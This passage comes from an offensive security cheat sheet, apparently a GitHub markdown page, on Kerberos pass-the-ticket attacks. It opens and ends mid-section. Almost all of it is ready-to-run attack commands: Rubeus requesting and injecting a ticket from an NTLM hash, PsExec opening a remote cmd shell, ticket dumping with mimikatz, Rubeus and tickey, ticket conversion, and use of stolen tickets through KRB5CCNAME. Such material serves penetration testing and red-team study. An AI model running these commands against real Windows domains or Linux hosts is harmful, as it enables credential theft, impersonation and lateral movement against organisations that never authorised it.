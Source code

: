 **Ask and inject the Ticket**

```c
C:\> .\Rubeus.exe asktgt /domain:<DOMAIN> /user:<USERNAME> /rc4:<NTLMHASH> /ptt
```

**Execute a CMD on Remote Host**

```c
C:\> .\PsExec.exe -accepteula \\<RHOST> cmd
```

**Pass The Ticket (PTT)**

**Harvest Tickets from Linux**

**Check Type and Location of Tickets**

```c
$ grep default_ccache_name /etc/krb5.conf
```

* If none return, default is FILE:/tmp/krb5cc\_%{uid}
* In Case of File Tickets it is possible to Copy-Paste them to use them
* In Case of being KEYRING Tickets, the Tool tickey can be used to get them
* To dump User Tickets, if root, it is recommended to dump them all by injecting in other user processes
* To inject, the Ticket have to be copied in a reachable Folder by all Users

```c
$ cp tickey /tmp/tickey
$ /tmp/tickey -i
```

**Harvest Tickets from Windows**

```c
mimikatz # sekurlsa::tickets /export
$ .\Rubeus dump
```

**Convert Tickets dumped with Rubeus into base64**

```c
[IO.File]::WriteAllBytes("<TICKET>.kirbi", [Convert]::FromBase64String("<TICKET>"))
```

**Convert Tickets between Linux and Windows Format with ticket\_converter.py**

> https://github.com/Zer1t0/ticket\_converter

```c
$ python ticket_converter.py ticket.kirbi ticket.ccache
$ python ticket_converter.py ticket.ccache ticket.kirbi
```

**Using Ticket on Linux**

```c
$ export KRB5CCNAME=<USERNAME>.ccache
```

**Execute Remote Commands by using TGT**
